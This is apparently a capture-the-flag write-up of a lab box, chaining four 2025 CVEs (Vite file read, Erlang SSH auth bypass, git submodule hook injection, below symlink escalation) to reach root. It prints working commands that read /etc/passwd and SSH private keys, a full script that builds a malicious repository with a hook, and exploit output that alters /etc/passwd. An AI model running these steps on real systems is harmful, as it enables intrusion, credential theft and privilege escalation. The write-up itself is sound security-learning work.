




# CVE-Safari
**FesseMisk by HAL50000**

## Initial Reconnaissance

Every boot2root starts with nmap. I always run `nmap -T5 -A IP -vv` because I'm impatient and like my scans aggressive.

**NMAP Results:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
5173/tcp open  unknown
```

Port 5173 showed Vite configuration errors and blocked requests in the fingerprint.

## Step 1: Alpha User (Vite CVE-2025-30208)

Checked out port 5173 and found it was running **Vite v6.2.1**:

```bash
curl -v http://10.128.8.84:5173/
# Output shows: VITE v6.2.1
```

From the challenge context, I guessed there's a CVE from 2025 in that Vite version.

**EXPERT LEVEL GOOGLE DORKING INCOMING:** I found basically all POCs in this challenge by typing `THING CVE-2025 poc github`. Sign up for my course $69.99 for more hot tips.




Found [CVE-2025-30208 POC](https://github.com/4m3rr0r/CVE-2025-30208-PoC) - arbitrary file read vulnerability.

Used this curl command to dump files:
```bash
curl -H "Host: 10.128.8.84" 'http://10.128.8.84:5173/etc/passwd?.svg?.wasm?init'
```

Dumped `/home/alpha/.ssh/id_ed25519` to get a shell as the alpha user.

Looking at `/etc/passwd`, we see three users (alpha, beta, gamma), probably need to privesc 3 times to get root.

## Step 2: Beta User (Erlang SSH CVE-2025-32433)

Next I ran `netstat -tunlp`, that's always where one should start when getting on a new box.

```bash
netstat -tunlp
# Found: 127.0.0.1:2222 running beam.smp (Erlang)
```

Forwarded the port to check it out locally:
```bash
ssh -i alpha.key -L 2222:127.0.0.1:2222 alpha@10.128.3.62
```

Checking this port revealed an Erlang SSH server:
```bash
wget http://127.0.0.1:2222 -O-
# Output: SSH-2.0-Erlang/5.1.4.7
```

Here we go again with the CVE hunting:



Found [CVE-2025-32433 POC](https://github.com/0xPThree/cve-2025-32433), authentication bypass.

To keep it simple, I just chmod'd beta's private SSH key and cat'd it as alpha:

```bash
python3 cve-2025-32433.py -t 127.0.0.1 -p 2222
# Command: chmod 666 /home/beta/.ssh/id_ed25519
```

Got the beta SSH key and logged in as beta.

## Step 3: Gamma User (Git CVE-2025-48384)

Here I was a little stuck until I remembered to check what the user could do with sudo:

```bash
sudo -l
# Output: (gamma) NOPASSWD: /home/gamma/check_it_out.pl
```

```perl
#!/usr/bin/perl
use strict;
use warnings;
use URI;

# Grab URL from the file
my $file = "URL.txt";
open my $fh, '<', $file or die "Cannot open $file: $!";
chomp(my $url = <$fh>);
close $fh;

# Validate that it's an URI
my $uri = URI->new($url)->canonical;

if (!$uri->scheme || $uri->scheme !~ /^(https?|git)$/) {
    die "Invalid URL scheme: only http, https, or git allowed\n";
}

if (!$uri->host) {
    die "Invalid URL: missing host\n";
}

# Check it out!
my @cmd = ("git", "clone", "--recursive", $uri->as_string);
exec @cmd or die "Failed to exec git: $!";

```

The script was a Perl validator that executed `git clone --recursive` on a URL from `URL.txt`.

I used almost an hour trying to pwn this script, looking for bugs in the Perl code. I messed up and tried to find a mistake myself instead of just trying to find a CVE. Real pentesters just Google CVEs and run POCs. Why am I out here doing actual research? 😂

Checked the git version:
```bash
git --version
# git version 2.50.0
```



Found [CVE-2025-48384](https://github.com/acheong08/CVE-2025-48384), git submodule hook injection.

After trying to set this up manually on the box, I decided to just host the repos publicly on GitHub. Created `test` and `test2` repos and modified the POC:

```bash
#!/usr/bin/fish

git clone git@github.com:HAL500000/test.git sub

echo '#!/usr/bin/env bash
chmod 666 /home/gamma/.ssh/id_ed25519
touch /tmp/pwnd
' > sub/post-checkout
chmod +x sub/post-checkout
git -C sub add post-checkout
git -C sub commit -m hook; or true
git -C sub push origin HEAD

rm -rf repo
git clone git@github.com:HAL500000/test2.git repo

git -C repo -c protocol.file.allow=always submodule add https://github.com/HAL500000/test.git sub
git -C repo mv sub (printf "sub\r")

git config unset -f repo/.gitmodules submodule.sub.path
printf "\tpath = \"sub\r\"\n" >> repo/.gitmodules

git config unset -f repo/.git/modules/sub/config core.worktree
printf "[core]\n\tworktree = \"../../../sub\r\"\n" >> repo/.git/modules/sub/config

ln -s .git/modules/sub/hooks repo/sub
git -C repo add -A
git -C repo commit -m submodule

git -c protocol.file.allow=always clone --recurse-submodules repo bad-clone
git -C repo push origin HEAD
```

Wrote the malicious repo URL to `/home/gamma/URL.txt` and ran:
```bash
sudo -u gamma /home/gamma/check_it_out.pl
```

The git hook executed successfully and gave us the gamma SSH key.

## Step 4: Root (Below CVE-2025-27591)

This time I wasn't messing around and went straight for `sudo -l`:

```bash
sudo -l
# Output: (ALL : ALL) NOPASSWD: /usr/local/bin/below
```



One of the first results: [CVE-2025-27591 POC](https://github.com/BridgerAlderson/CVE-2025-27591-PoC), privilege escalation via world-writable `/var/log/below` directory. 


The vulnerability allows symlink manipulation to write to `/etc/passwd`:

```bash
$ python3 a.py
[*] Checking for CVE-2025-27591 vulnerability...
[+] /var/log/below is world-writable.
[+] /var/log/below/error_root.log is already a symlink. Looks exploitable.
[+] Target is vulnerable.
[*] Starting exploitation...
[+] Wrote malicious passwd line to /tmp/attacker
[+] Symlink set: /var/log/below/error_root.log -> /etc/passwd
[*] Executing 'below record' as root to trigger logging...
Nov 16 21:44:10.521 DEBG Starting up!
ls

^CNov 16 21:44:30.272 ERRO Stop signal received: 2, exiting.
Nov 16 21:44:30.522 ERRO Stopped by signal: 2
[+] 'below record' executed.
[*] Appending payload into /etc/passwd via symlink...
[+] Payload appended successfully.
[*] Attempting to switch to root shell via 'su attacker'...
root@ip-10-128-3-62:~# cat flag_c501ab74f8d3b08351ef8421143cd4b5.txt
EPT{S4faR1_c0mPl3tEd_8a3b22acff}
```

**Flag:** `EPT{S4faR1_c0mPl3tEd_8a3b22acff}`

We solved this with 15 minutes left, it was very stressful! My teammate helped me use the last below CVE and submitted the flag, though I let him submit it 😝


